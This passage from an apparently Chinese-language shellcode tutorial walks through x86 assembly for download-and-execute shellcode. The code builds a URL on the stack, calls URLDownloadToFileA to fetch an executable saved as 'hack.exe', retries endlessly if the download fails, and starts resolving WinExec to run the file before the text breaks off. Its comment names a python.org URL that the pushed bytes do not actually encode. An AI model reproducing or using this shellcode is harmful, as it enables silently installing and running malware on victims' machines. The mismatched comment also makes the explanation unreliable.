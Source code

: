   + 使用该函数进行[下载文件](https://www.exploit-db.com/shellcodes/13533)
    ```asm
    ;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
    download:
    pop eax
    xor ecx, ecx
    push ecx
    ; URL: https://www.python.org/ftp/python/3.8.3/python-3.8.3.exe
    push 0x6578652E         ; exe.
    push 0x74646573         ; tdes
    push 0x6F6F672F         ; oog/
    push 0x33312E36         ; 31.6
    push 0x352E3836         ; 5.86
    push 0x312E3239         ; 1.29
    push 0x312F2F3A         ; 1//:
    push 0x70747468         ; ptth
    push esp
    pop ecx                 ; save the URL string
    xor ebx, ebx
    push ebx
    ; save as hack.exe
    push 0x6578652E         ; exe.
    push 0x6B636168         ; kcah
    push esp
    pop ebx                 ; save the downloaded filename string
    xor edx, edx
    push edx
    push edx
    push ebx
    push ecx
    push edx
    mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
    call eax
    pop ecx
    add esp, 44
    xor edx, edx
    cmp eax, edx
    push ecx
    jnz download            ; if it fails to download , retry contineusly
    pop edx
    ```
  + 找到`WinExec`函数的入口地址，并调用该函数运行下载的文件，最后退出程序
    ```asm
    Create string 'WinExec\x00' on the stack and save its address to the stack-frame
    mov edx, 0x63657878     \
    shr edx, 8              ; Shifts edx register to the right 8 bits
    push edx                ; "\x00,cex"
    push 0x456E6957         ; EniW : 456E6957
    mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
    call findFunctionAddr   ; After Return EAX will = &WinExec
    